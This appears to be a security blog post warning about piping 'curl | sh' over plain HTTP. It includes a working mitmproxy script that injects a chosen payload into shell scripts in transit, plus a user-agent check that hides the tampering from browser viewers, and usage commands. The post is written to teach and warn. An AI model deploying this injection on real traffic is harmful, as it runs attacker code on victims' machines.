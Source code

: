 +++
title = 'Owning "curl | sh" for Fun and Profit'
[taxonomies]
tags = [ "security" ]
+++

If you're a web developer, you've probably seen sites asking you to install their software package like so:

```sh
curl -s http://example.com/install.sh | sh
```


There are a number of subtle problems with piping a HTTP response into the shell (for example, if your connection is
interrupted part-way through the script, the script may end up partially executed, 
[as written about here](https://www.seancassidy.me/dont-pipe-to-your-shell.html)),
but let's look at the most obvious problem: the ease with which a man-in-the-middle can modify code you are about to
directly execute.

Users piping unencrypted web traffic into the shell is about as easy it gets for me as an attacker, because:
- shell scripts are easily identified as such, and so are easy to target
- shell scripts are written in plaintext, so it's straightforward to inject our own code into it
- if they look at it at all, users are likely to inspect the code with a separate tool than they use to download and
  execute it (the browser versus curl or wget), and I can conditionally respond to this.

I wrote a proof-of-concept script, using [mitmproxy](https://mitmproxy.org/index.html), that can detect scripts
downloaded using this pattern and inject shell commands of my choosing.

Let's write a simple [mitmproxy script](https://mitmproxy.org/doc/scripting/inlinescripts.html) to do this.

```python
#!/usr/bin/python

from libmproxy.protocol.http import decoded


def start(context, argv):
    if len(argv) != 2:
        raise ValueError('Usage: -s "inject_shell.py payload.sh"')
    context.payload = get_payload(argv[1])
    

def get_payload(payload_file):
    """
    Read and return the payload file as a string
    """
    f = open(payload_file, 'r')
    lines = f.readlines()
    f.close()
    return '\n'.join(lines)
    
def is_shell_script(resp):
    """
    Returns true if the request is a possible shell script
    """
    shell_content_type = False
    content_type = resp.headers.get_first("content-type", "")
    # if content-type is set, should be text/*
    if content_type != "" and not content_type.startswith('text/'):
        return False
    # and should start with shebang
    if not resp.content.startswith('#!'):
        return False
    return True

def response(context, flow):
    resp = flow.response
    req = flow.request
    with decoded(resp):
        if is_shell_script(resp):
            flow.response.content = flow.response.content.replace(
                '\n',
                '\n' + context.payload + '\n',
                1)
```

When a request is made through mitmproxy, this will modify any response that looks like a shell script to contain our
payload. Let's modify this so we only add the payload if the file is downloaded via curl or wget, so that a user
inspecting the code in the browser doesn't see what we've injected:
 
```python
def is_cli_tool(req):
    """
    Returns true if the user-agent looks like curl or wget
    """
    user_agent = req.headers.get_first("User-Agent", "")
    if user_agent.startswith('curl'):
        return True
    if user_agent.startswith('Wget'):
        return True
    return False
def response(context, flow):
  # ...
  with decoded(resp):
      if is_shell_script(resp) and is_cli_tool(req):
      # ...
```


To test it out, run mitmproxy with this script in [regular](http://mitmproxy.org/doc/modes.html) mode:


```
mitmproxy -s "inject_shell.py payload.sh
```

Configure your browser to proxy HTTP connections through `localhost:8080`, and take a look at a shell script over HTTP
([like any of the http:// links here](https://www.google.com/webhp?q=filetype:sh+inurl:http)). Looks fine, right?

Now try it via curl:

```sh
curl -x localhost:8080 http://example.com/install.sh
```

You should now see the payload injected into the response. Same with wget: 

```sh
wget -qO- http://example.com/install.sh
```

Security is fun. [Source is up on github here](https://github.com/chrishepner/sh-mitm). 
